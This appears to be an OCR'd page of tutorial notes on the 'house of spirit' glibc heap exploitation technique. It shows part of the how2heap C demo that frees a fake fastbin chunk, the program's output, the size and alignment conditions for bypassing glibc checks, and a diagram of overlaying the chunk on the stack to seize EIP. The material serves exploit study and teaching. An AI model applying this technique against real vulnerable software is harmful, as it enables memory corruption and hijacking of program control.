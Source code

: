 ```c
	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the fake chunk\n");
	free(a);

	fprintf(stderr, "malloc will return fake chunk at %p, user data offset at %p!\n",
		&fake_chunks[1], &fake_chunks[2]);

	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

Output:

    $ ./house_of_spirit
    Calling malloc() once so that it sets up its memory.
    Setup pointer to point to a fake 'fastbin' region.
    This region (size 80) holds two chunks
	1st at 0x7fffebe764a8 and 2nd at 0x7fffebe764e8
    Set pointer to address of user data in fake first chunk, 0x7fffebe764a8
    Freeing the fake chunk
    malloc will return fake chunk at 0x7fffebe764a8, user data offset at 0x7fffebe764b0!
    malloc(0x30): 0x7fffebe764b0


This `chunk.size` of this region has to be 16 more than the region (to accomodate the chunk header) while still falling into the fastbin category (<= 128 on x64).

This has to be the size of the next malloc request (`0x30` in this example) rounded to the internal size used by the malloc implementation. For example on x64, `0x30-0x38` will all be rounded to `0x40`, so they would work for the malloc parameter at the end.

The `chunk.size` of the *next* fake region has to be set to bypass the glibc security check. That is `> 2*SIZE_SZ` (> 16 on x64) && `< av->system_mem` (< 128KB by default for the main arena) to pass the nextsize integrity checks.

So that the fake chunk is handled correctly by glibc, before the fake chunk is `free()ed` using the pointer, the pointer is set to the user data region within the fake first chunk (i.e. it is not set to the address of the chunk header itself, but the user data within the chunk). This is because glibc will attempt to look at the chunk header later, by subtracting the chunk header offset from the user data.

Finally in order to make this work the memory the of the crafted fake chunk must be 16-byte aligned, as glibc would do for chunks it produces.


While the above @how2heap example does nothing harmful, it easy to imagine how an arbitary memory location could be corrupted with this technique. @phrack for example walks through overlaying the fake chunk across stack memory, to gain control of the EIP:

                     val1         target                val2
                      o             |                     o
        -64           |  mem  -4    0   +4  +8  +12 +16   |
         |            |   |    |    |    |   |   |   |    |
    .....][P_SIZE][size+8][...][EBP][EIP][..][..][..][next_size][ ......
                      |   |                           |
                      o---|---------------------------o
                          |      (size + 8) bytes
                         PTR1
                          |---> Future PTR2
                                       ----
